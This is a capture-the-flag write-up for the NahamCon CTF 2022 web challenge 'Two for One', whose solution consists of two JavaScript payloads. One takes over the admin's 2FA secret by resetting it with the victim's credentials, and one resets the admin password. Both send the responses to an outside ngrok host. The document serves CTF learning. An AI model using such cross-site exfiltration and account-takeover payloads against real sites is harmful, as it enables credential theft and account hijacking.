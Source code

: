 ```yaml
---
name: Two for One (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Two for One (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Two for One

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1906 "NahamCon CTF 2022: Two for One")

## Description

> Need to keep things secure? Try out our safe, the most secure in the world!

## Solution

#### 2fa_exfil.js

```js
// Extract 2fa code from admin, can then generate QR code for GAuth (update the secret)
// https://www.google.com/chart?chs=200x200&chld=M%7C0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=APJ5VXIQVMM5UF6X&issuer=Fort%20Knox
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://challenge.nahamcon.com:30666/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io/?flag=" + flag);
    exfil.send();
};
xhr.send();
```

#### reset_pw.js

```js
// Reset admin password
var http = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30666/reset_password";
var data = JSON.stringify({
    password: "admin",
    password2: "admin",
    otp: "661035",
});
http.open("POST", url, true);

// Not actually needed, just for debugging
http.onload = function () {
    var flag = btoa(http.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://b6a5-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};

http.setRequestHeader("Content-type", "application/json");

http.send(data);
```
